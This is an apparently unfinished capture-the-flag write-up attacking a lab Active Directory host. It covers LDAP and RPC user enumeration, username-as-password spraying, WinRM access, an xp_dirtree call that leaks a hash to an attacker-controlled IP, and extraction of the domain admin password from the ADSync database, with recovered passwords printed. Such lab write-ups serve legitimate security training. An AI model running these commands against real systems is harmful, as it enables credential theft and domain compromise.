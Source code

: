 #InProgress 
```IP

```
# Enumeration
I tried bruteforcing kerberos usernames and smb enumeration to no avail. Let's try with LDAP:

## LDAP
```
ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL"
```
We retrieve some users:
```
smorgan
roleary
dgalanos
mhope
svc-netapp
svc-bexec
svc-ata
SABatchJobs
```
Further enumeration with this usernames as passwords gives us a positive in smb:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110406.png?raw=true)
But it doesn't retrieve any share.
## RPC
With RPC we get similar results to LDAP
```
rpcclient -U '' 10.10.10.172 -N
enumdomusers
querydispinfo
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110713.png?raw=true)
But it displays a extra user called `AAD_987d7f2f57d2` with description `Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTVERDE.`
We add it to our user list
## SMB
With all our usernames we can list again smb, and we will get SABatchJobs as the only hit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222114916.png?raw=true)
Lets enumerate with:
```
smbclient //10.10.10.172/users$ --password='SABatchJobs' -U 'SABatchJobs' -c 'recurse;ls'
```
We will see an Azure.xml file that we can download and open, and will contain a password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115238.png?raw=true)
```
4n0therD4y@n0th3r$
```
Executing
```
nxc winrm 10.10.10.172 -u users.txt  -p '4n0therD4y@n0th3r$'
```
We get mhope user pwned!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115411.png?raw=true)
```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```
# Exploitation

# PrivEsc

## Manual
```

```
Interesting software
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115731.png?raw=true)
Let's try accessing mssql
```
sqlcmd -q 'select @@version;'
```
It seems like we have query execution:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222124743.png?raw=true)
We try xp_cmdshell command execution but we don't have permissions. With xp_dirtree and responder we get a hash though:
```
sqlcmd -q "xp_dirtree '\\10.10.14.17\test';"
```
It seems like we get a hash but it doesn't crack. So the next thing to try would be to enumerate tables.
There is a ADSync database that looks suspicious, but manually enumerating it is exhausting. If we google `ADSync mssql database` we will learn that it is a database part of the Microsoft Entra Could Sync, a sync client for Azure which helps users to set up and manage their sync preferences online. Including Password syncronization.
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-install-existing-database
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2
And searching how to pentest this we get to the following blog: 
https://blog.xpnsec.com/azuread-connect-for-redteam/
Which suggests us to use `mms_management_agent` table to get some encrypted passwords
```
sqlcmd -q "USE ADSync;SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222132514.png?raw=true)
When running the entire script located in the latter blog, we get a WinRM crash. So if we run each powershell command separately, we see that it is not connecting correctly to the MSSQL server:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163115.png?raw=true)
A quick google search provides us with some alternative sintax to do the connection:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163305.png?raw=true)
So now it is time to edit our script and transfer it once again to the target machine:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163405.png?raw=true)
And finally we get the decrypted password!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163539.png?raw=true)
```
d0m@in4dminyeah!
```
And we get root:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163651.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement
